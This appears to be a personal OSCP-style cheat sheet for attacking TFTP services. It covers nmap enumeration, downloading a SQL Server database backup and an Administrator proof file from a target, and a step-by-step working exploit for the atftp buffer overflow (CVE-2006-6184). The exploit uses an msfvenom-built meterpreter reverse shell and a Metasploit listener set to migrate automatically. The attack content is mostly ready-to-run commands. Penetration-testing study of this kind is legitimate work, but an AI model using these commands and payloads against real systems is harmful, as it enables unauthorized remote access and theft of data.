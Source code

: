 ### **Checks**

- [ ] Search for files to find sensitive info like passwords
- [ ] Upload shells to trigger them in web app

### OSCP book pg 488
```bash - kali
sudo nmap -sU -p69 --script tftp-enum $TARGET
```
#### tftp.py
```
pip install tftpy
```
```python - kali
import tftpy
client = tftpy.TftpClient("$KALI", 69)
client.download("C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf", "/home/kali/Desktop/PWK/10.11.1.111/master.mdf", timeout=5)
#client.upload("filename to upload", "/local/path/file", timeout=5)
```
#### atftp
```
sudo apt install atftp
```
```
atftp -g -r "C:\Users\Administrator\Desktop\proof.txt" $TARGET
```
If you are after a path that has spaces, try using [[Abbreviated dir]]'s.
https://github.com/shauntdergrigorian/cve-2006-6184/blob/master/atftp.py
==READ THE EXPLOIT STEPS VERY CAREFULLY!!==
1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```bash - kali
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```
2.) Next, use the following command to create a staged meterpreter shell payload:
```bash - kali
msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```
3.) Then, combine the two files you just created.
```bash - kali
cat stackadj payload > shellcode
```
4.) Finally, let's eliminate the bad characters.
```bash - kali
msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
```
Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.
![[Pasted image 20220406211356.png]]
#### Metasploit Listener
```bash - kali
sudo msfdb run
```
```bash - kali
use exploit/multi/handler
```
```bash - kali
set PAYLOAD windows/meterpreter/reverse_nonx_tcp
```
```bash - kali
set ExitOnSession false
```
```bash - kali
set AutoRunScript post/windows/manage/migrate
```
```bash - kali
set lhost
```
```bash - kali
set lport
```
```bash - kali
exploit -j
```
```bash - kali
python atftp.py $TARGET 69 $KALI $OS-VERSION
```